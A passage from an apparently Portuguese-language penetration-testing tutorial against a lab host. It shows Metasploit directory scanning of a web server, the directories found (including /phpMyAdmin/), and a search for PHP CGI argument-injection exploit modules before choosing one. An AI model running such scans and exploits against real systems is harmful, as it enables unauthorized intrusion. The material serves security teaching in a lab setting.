 Configurando o alvo:

```bash
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 192.168.1.30
RHOSTS => 192.168.1.30
```

Por fim, vamos executar o módulo.

```bash
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 192.168.1.30
[+] Found http://192.168.1.30:80/cgi-bin/ 403 (192.168.1.30)
[+] Found http://192.168.1.30:80/doc/ 200 (192.168.1.30)
[+] Found http://192.168.1.30:80/icons/ 200 (192.168.1.30)
[+] Found http://192.168.1.30:80/index/ 200 (192.168.1.30)
[+] Found http://192.168.1.30:80/phpMyAdmin/ 200 (192.168.1.30)
[+] Found http://192.168.1.30:80/test/ 200 (192.168.1.30)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

O módulo retornou uma lista de diretórios, que podem conter informações sensíveis ou vulnerabilidades que podem ser exploradas. Um diretório interessante seria o `/phpMyAdmin/`. Vamos tentar explorá-lo utilizando o seguinte módulo de injeção de argumento CGI (Common Gateway Interface) no PHP.

```bash
msf6 > search php_cgi

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/multi/http/php_cgi_arg_injection                      2012-05-03       excellent  Yes    PHP CGI Argument Injection
   1  exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577  2024-06-06       excellent  Yes    PHP CGI Argument Injection Remote Code Execution
   2    \_ target: Windows PHP                                      .                .          .      .
   3    \_ target: Windows Command                                  .                .          .      .


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/php_cgi_arg_injection_rce_cve_2024_4577
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command'
```

Vamos utilizar a opção `0`.
